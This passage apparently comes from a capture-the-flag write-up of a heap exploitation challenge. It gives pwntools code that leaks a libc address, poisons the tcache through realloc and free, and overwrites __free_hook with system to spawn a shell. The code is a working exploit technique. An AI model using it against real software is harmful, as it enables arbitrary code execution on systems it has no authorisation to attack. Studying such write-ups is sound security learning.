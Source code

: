 
After a `puts` call, there was lot of addresses dumped to the `stdout`, which was bit too much, this made it hard to get an exact lLIBC leak, this problem was with the ASLR off, which, in turn ran with the bruteforce works perfectly normal.
So, for the ASLR off part, the leak parsing was something like this:-


```py
        leak = p.recv(0xe20 + 0x10)[0xe20 + 0x5:0xe20 + 0x5 + 6]
        leak = u64(leak.ljust(8, b"\x00")) #+ 0x197a000
        leak = int(hex(leak), 16)

        log.info("LEAK:   0x%x" %(leak))
        libc.address = leak + 0x197f000 #0x1b2634
        log.info("LIBC:   0x%x" %(libc.address))
        log.info("LIBC:   0x%x" %(libc.address))

        log.info("__free_hook:   0x%x" %(libc.sym['__free_hook']))

p.sendline("") # Fix the buffer of thr program
```
Now, what we do is, allocate at the chunk 1 with size `0x70` and then `free` it with the use of the `realloc`, this will push the chunk on the `tcache` bin list, now we again reallocate the same chunk by shrinking it's size to the `0x18`, then we allocate the chunk of the same size earlier and edit the `fd` of the next adjacent chunk to the `__free_hook - 0x8` and made the size to the `0x41` which will make it belong to bin of size `0x50`. Then we `free` the chunk 1.
```py
allocate(1, 0x70, "F")
realloc(1, 0, "")

realloc(1, 0x18, "F"*0x10)
free(1)

allocate(1, 0x70, b"F"*0x18+p64(0x41)+p64(libc.sym["__free_hook"] - 0x8))
free(1)
```

![](/img/ropetwo/free_hook.png)

Now, we retrieve the chunk and overwrite the `free_hook` with the system:

```py
allocate(1, 0x58, "G")
realloc(1, 0x28, "G")
free(1)

allocate(1, 0x58, b"/bin/sh\x00" + p64(libc.sym['system']))
```
![](/img/ropetwo/system.png)


Now, we invoke the `__free_hook` by calling the `rm` function:-


```py
p.sendlineafter("$ ", "rm 1")
p.interactive()
```
